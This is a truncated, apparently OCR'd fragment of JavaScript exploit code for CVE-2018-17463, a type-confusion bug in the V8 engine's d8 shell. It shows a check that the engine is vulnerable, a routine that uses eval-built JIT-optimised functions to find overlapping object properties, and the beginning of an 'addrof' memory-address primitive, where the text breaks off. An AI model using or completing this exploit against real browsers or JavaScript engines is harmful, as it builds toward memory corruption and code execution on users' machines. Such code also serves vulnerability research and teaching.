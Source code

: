 ```

  for (let i = 0; i &lt; 10000; i++) {
    let x = { a: 0x1234 };
    x.b = 0x5678;
    let res = vuln(x);
    if (res != 0x5678) {
      log("CVE-2018-17463 exists in the d8");
      return;
    }

  }
  throw "bad d8 version";

}

function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i &lt; 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i &lt; 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) =&gt; `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i &lt; 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i &lt; 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i &lt; res.length; i++) {
      if (i !== -res[i] &amp;&amp; res[i] &lt; 0 &amp;&amp; res[i] &gt; -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

function addrof(obj) {
  eval(`
  function vuln(obj) {
```
